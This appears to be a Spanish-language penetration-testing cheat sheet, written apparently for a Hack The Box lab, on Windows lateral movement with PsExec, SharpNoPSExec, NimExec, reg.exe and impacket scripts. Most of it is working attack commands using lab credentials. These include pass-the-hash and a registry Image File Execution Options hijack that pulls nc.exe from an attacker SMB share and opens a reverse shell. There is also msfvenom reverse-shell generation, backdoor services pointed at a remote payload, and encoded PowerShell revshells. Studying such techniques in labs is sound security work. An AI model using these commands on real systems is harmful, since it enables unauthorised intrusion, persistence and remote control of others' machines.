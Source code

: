 # Necesidades

- Privilegios de administrador local


# Desde windows

### PsExec

Es una herramienta parte del Sysinternals suite. 

1. Establece un link en la carpeta ADMIN$ (c:\windows) mediante SMB
2. Usa el service control manager(SCM) para iniciar el servicio PsExecsvc y setea un pipe.
3. Redirige los ingresos en la consola mediante el pipe.

##### Uso

    .\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd

Si queremos ejecutarlo como NT AUTHORITY\SYSTEM

    .\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd

### SharpNoPSExec

**Mejora el anonimato** aprovechando servicios que ya están corriendo en el host. 

No genera una shell de por sí, con lo que tendremos que generarla nosotros agregando un payload de revshell.

1. Busca todos los servicios en el host.
2. Identifica todos los que tienen el start como "disable" o "manual", que su estado es stopped y sean corridos con privilegios de LocalSystem.
3. Selecciona uno, modifica el path al binario del mismo para apuntar a un payload dado por el atacante.
4. Luego de la ejecución, espera 5 segundos para volver el servicio a su path original.

Por defecto usa las creds del user que está corriéndolo. Si quisieramos hacerlo con otro user podemos agregar las flag "--username", --"password" y "--domain"

    .\SharpNoPSExec.exe --target=172.20.0.52 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUAKAApAA=="

### NimExec

Funciona igual que SharpNoPSExec pero permite hacer un **pass the hash**

    .\NimExec -u <user> -d <domain> -h <hash> -t <ip> -c "cmd.exe /c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -v

### reg.exe

Esta herramienta utiliza el pipe del winreg SMB. Usualmente solo está habilitado en SO de tipo server.
Nos permite escribir en el registro de windows para indexar el uso de un servicio/programa a la ejecución de un payload malicioso.

1. Primero levantamos un servidor SMB donde alojamos nuestro binario malicioso

        sudo python3 smbserver.py share -smb2support /home/plaintext/nc.exe

2. Iniciamos un listener
3. Cambiamos el valor del SMB share folder a 1 (esto hace que se pueda acceder al mismo sin autenticación)

        reg.exe query HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth
    
4. Ejecutamos reg agregando el full path al servicio que vamos a envenenar junto con el path al binario malicioso. (Este ejemplo es con el edge de microsoft. Recomendamos usar chrome)

        reg.exe add "\\srv02.inlanefreight.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c copy \\172.20.0.99\share\nc.exe && nc.exe -e \windows\system32\cmd.exe 172.20.0.99 8080"

5. Esperamos a que alguien ejecute el programa para que se dispare el payload malicioso.

---

# Desde linux

### psexec.py

Crea un servicio dentro del ADMIN$ subiendo un binario con nombre alatorio y nos devuelve una shell.

    psexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52

### smbexec.py

- Corre comandos arbitrarios en un sistema remoto sin subir un archivo **es más silencioso**
- Crea un servicio en el sistema


        smbexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52

### Services.py

- Interactua con el MSRPC.
- Permite iniciar, parar, elimintar, leer el satado, configurar, listar crear y modificar los servicios.
- No es interactivo, con lo cual no obtendremos respuestas.

##### Listar los servicios del sistema

    services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 list


##### Crear un servicio con shell reversa

1.Creamos una shell y la metemos en nuestro smb:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.207 LPORT=9001 -f exe-service -o rshell-9001s.exe

2. corremos el script incidandole el camino a la shell en nuestro smb

        services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 create -name 'Service Backdoor' -display 'Service Backdoor' -path "\\\\10.10.14.207\\share\\rshell-9001.exe"
##### Iniciar el servicio

1. Iniciamos un listener
2. llamamos al servicio que creamos.

        impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name 'Service Backdoor'

3. una vez terminado eliminamos el servicio

        services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 delete -name 'Service Backdoor'


##### Modificar un servicio
1. Listamos los servicios
2. Elegimos el servicio y le indicamos que corra con nuestro binario malicioso.

        impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name Spooler -path "\\\\10.10.14.207\\share\\rshell-9001.exe" -start_type 2
3. Iniciamos el servicio

        impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name Spooler

#### Atención!

Puede que algunas veces el servidor no pueda llegar al archivo que tenemos en nuestro SMB. Podemos aprovechar a colocarlo en otra carpeta compartida dentro de la red. Si tuvieramos acceso con otro user al servidor y el mismo no tuviera acceso a archivos puntuales que necesitemos leer, podemos subir nuestro binario al servidor e indicarle la ruta local. (Esto es raro, pero en el lab de HTB no hubo otra forma xD)


### atexec.py

#### ¡¡¡Para que funcione tienen que estar sincronizados los relojes de la máquina victima y la del atacante!!!

Utiliza el Windows Task Scheduler service que es accesible mediante el pipe SMB atsvc.

1. Iniciamos un listener
2. Creamos un payload con revshells
3. Corremos el script

        atexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 "powershell -e ...SNIP...AbwBzAGUAKAApAA=="
